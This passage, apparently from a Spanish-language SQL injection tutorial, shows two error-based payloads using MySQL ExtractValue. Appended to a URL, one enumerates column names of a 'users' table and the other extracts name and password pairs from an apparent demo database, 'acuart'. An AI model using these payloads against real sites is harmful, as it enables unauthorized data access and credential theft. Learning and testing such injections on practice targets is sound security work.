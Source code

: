 <br>
Visualizando columnas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND ExtractValue('algo',concat('`', (SELECT column_name FROM information_schema.columns WHERE table_name="users" LIMIT x,1)));#</font></pre>

![v_columnas](/assets/img/screens/columnas_2.png)

<br>
Extrayendo información:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND ExtractValue('algo',concat('`', (SELECT concat(name,',',pass) FROM acuart.users LIMIT 0,1)));#</font></pre>

